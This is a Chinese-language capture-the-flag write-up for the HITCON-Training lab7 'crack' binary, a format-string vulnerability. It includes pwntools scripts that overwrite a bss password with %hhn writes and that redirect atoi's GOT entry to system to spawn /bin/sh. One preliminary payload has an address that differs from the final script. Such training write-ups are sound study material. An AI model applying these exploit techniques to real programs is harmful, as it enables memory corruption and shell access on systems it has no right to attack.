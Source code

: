 ```yaml
---
title: lab7_crack
date: 2019-07-12
categories: 
- hitcon_trainning
tags: stack formating_string
---
```



**<font style="font-size:25px">格式化字符串漏洞</font>**    

# 非getshell

## 思路


- **按代码的逻辑来说**，是要求猜一个随机数，如果这里的cat flag的确有这个flag的话，那么覆盖password成为指定内容就可以做完了。  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190712143146308.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjY3MzE2,size_16,color_FFFFFF,t_70)  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190712143209276.png)
password是一个**bss段**的变量，而checksec发现  
 

地址随机化没开，所以password的地址确定了。 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190712143228450.png)
- <font style="font-size:15px">**payload**</font>  
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019071214340610.png)
buf是第十个参数,干脆把他覆盖成0。然后再加上前面格式化字符串的长度，可以得到地址开始是第17个参数。  
```python
payload="%17$hhn%18$hhn%19$hhn%20$hhnA"+p32(0x0804a048)+p32(0x0804a049)+p32(0x0804a050)+p32(0x0804a051)
```

## exp

```python
from pwn import *
import time 
#context.terminal = ['deepin-terminal', '-x', 'sh', '-c']

sh=process("./crack")
context.log_level='debug'

#gdb.attach(sh)
payload="%17$hhn%18$hhn%19$hhn%20$hhn"+p32(0x0804a048)+p32(0x0804a049)+p32(0x0804a04a)+p32(0x0804a04b)

sh.sendlineafter("name ? ",payload)
time.sleep(0.1)
sh.sendlineafter(':','0')

sh.interactive()
sh.close()
```
  

# getshell

- **我大胆想象一下**，如果我把atoi的got表给改成system的plt表......

```python
from pwn import *
import time 
#context.terminal = ['deepin-terminal', '-x', 'sh', '-c']

sh=process("./crack")
elf=ELF("./crack")
context.log_level='debug'

#gdb.attach(sh)

atoi_got_addr=elf.got['atoi']
system_plt_addr=elf.plt['system']

payload=fmtstr_payload(10,{atoi_got_addr:system_plt_addr})

sh.sendlineafter('? ',payload)
time.sleep(0.1)
sh.sendlineafter(':',"/bin/sh")

sh.interactive()
sh.close()
```

plt表是不可写的= =。 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190712143419322.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjY3MzE2,size_16,color_FFFFFF,t_70) 